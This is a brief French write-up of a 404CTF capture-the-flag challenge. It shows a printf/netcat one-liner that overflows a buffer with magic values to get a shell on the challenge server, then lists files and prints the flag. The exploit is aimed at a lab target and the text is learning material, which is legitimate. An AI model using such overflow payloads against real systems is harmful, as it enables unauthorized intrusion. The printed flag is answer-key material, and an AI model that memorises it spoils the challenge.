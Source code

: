 > Agent, suite à une mission périlleuse, vos collègues ont réussi à s'emparer d'un binaire s'exécutant sur une des machines de Hallebarde. Après une analyse poussée, ils ont réussi à extraire ce qui semblait être la meilleure version du code source. Vous êtes chargé de la dernière étape : essayez d'exploiter le binaire pour en tirer quelque chose.
>
> Netcat: nc challenge.404ctf.fr 32458


1. On rentre cette commande dans le bash : `(printf "1234567890098765432112345678900987654321\xef\xbe\xad\xde\xbe\xbe\xfe\xca"; cat) | nc challenge.404ctf.fr 32458`  
On obtient :  
Bon retour à la Hallebarde, agent !  

2. On tape: `ls`  
On obtient:
```
compromis
flag.txt
```
3. On tape: `cat flag.txt`  
On obtient
 
| `404CTF{C_7r0P_F4C113_D3_PWN_14_H411384rD3}` |
|----------------------------------------------|

